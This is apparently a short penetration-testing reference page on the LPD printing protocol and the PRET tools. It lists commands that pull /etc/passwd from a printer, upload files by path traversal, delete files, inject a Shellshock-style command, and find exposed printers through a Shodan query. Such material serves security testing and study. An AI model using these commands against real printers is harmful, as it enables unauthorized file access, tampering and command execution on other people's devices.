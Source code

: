 ## **Introduction to LPD Protocol**

In the 1980s, the **Line Printer Daemon (LPD) protocol** was developed in Berkeley Unix, which later became formalized through RFC1179. This protocol operates over port 515/tcp, allowing interactions through the `lpr` command. The essence of printing via LPD involves sending a **control file** (to specify job details and user) along with a **data file** (which holds the print information). While the control file allows the selection of **various file formats** for the data file, the handling of these files is determined by the specific LPD implementation. A widely recognized implementation for Unix-like systems is **LPRng**. Notably, the LPD protocol can be exploited to execute **malicious PostScript** or **PJL print jobs**.

## **Tools for Interacting with LPD Printers**

[**PRET**](https://github.com/RUB-NDS/PRET) introduces two essential tools, `lpdprint` and `lpdtest`, offering a straightforward method to interact with LPD-compatible printers. These tools enable a range of actions from printing data to manipulating files on the printer, such as downloading, uploading, or deleting:

```python
# To print a file to an LPD printer
lpdprint.py hostname filename
# To get a file from the printer
lpdtest.py hostname get /etc/passwd
# To upload a file to the printer
lpdtest.py hostname put ../../etc/passwd
# To remove a file from the printer
lpdtest.py hostname rm /some/file/on/printer
# To execute a command injection on the printer
lpdtest.py hostname in '() {:;}; ping -c1 1.2.3.4'
# To send a mail through the printer
lpdtest.py hostname mail lpdtest@mailhost.local
```

For individuals interested in further exploring the realm of **printer hacking**, a comprehensive resource can be found here: [**Hacking Printers**](http://hacking-printers.net/wiki/index.php/Main_Page).

# Shodan

* `port 515`
